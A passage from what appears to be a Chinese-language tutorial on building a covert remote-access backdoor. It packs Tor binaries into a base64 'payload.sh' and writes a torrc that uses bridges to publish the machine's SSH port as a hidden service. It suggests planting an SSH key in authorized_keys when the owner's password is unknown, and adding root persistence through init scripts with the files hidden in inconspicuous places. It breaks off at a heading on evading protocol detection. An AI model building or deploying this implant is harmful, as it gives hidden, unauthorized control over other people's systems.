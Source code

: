 现在运行`sudo ./htpdate-light`跟Google HTTP服务器进行时间同步。

接着对文件进行压缩以减少安装文件的体积：

```
tar cvzf binaries.tar.gz tor htpdate-light

```

现在我们创建一个安装脚本。在”payload.sh“脚本上把tar文件的base64编码保存到”torbin“变量。

```
echo '#!/bin/sh' > payload.sh
echo -n 'torbin=' >> payload.sh
cat binaries.tar.gz | base64 -w 0 >> payload.sh

```

然后用你喜欢的编辑器打开payload.sh，把下面的指令追加进去：

```
echo $torbin | base64 -d > binaries.tar.gz
tar xzvf binaries.tar.gz
rm binaries.tar.gz
chmod +x tor
echo '
Bridge 176.182.30.145:443 DE54B6962AB7ECBB88E8BC58BEA94B6573267515
Bridge 37.59.47.27:8001 E0671CF9CB593F27CD389CD4DD819BF9448EA834
Bridge 192.36.27.122:55626 35E199EFB98CDC9D3D519EA4F765C021A216F589
UseBridges 1
SocksPort 9050
SocksListenAddress 127.0.0.1
HiddenServiceDir ./.hs/
HiddenServicePort 2222 127.0.0.1:22
' > ./torrc
perl ./htpdate-light google.com
./tor -f ./torrc

```

我不建议在当前目录运行”payload.sh“。因为它会覆盖你的其它二进制文件。如果想测试的话把它拷贝到/tmp/目录下运行。

```
bash payload.sh

```

payload.sh会启动Tor匿名服务并绑定到SSH监听端口。要使用ssh登录的时候，我们只需要./.hs/hostname的主机名。如果你不知道用户的密码的话，可能还需要添加一个ssh密钥到~/.ssh/authorized_keys。

开机启动
----

如果你想在开机启动的时候用root用户启动服务，最简单的方法是修改”/etc/init.d“的init脚本。最好是把二进制文件和配置文件复制到一些不显眼的地方。然后修改”init“脚本让Tor在开机时启动。

利用代理绕过协议检测
----------
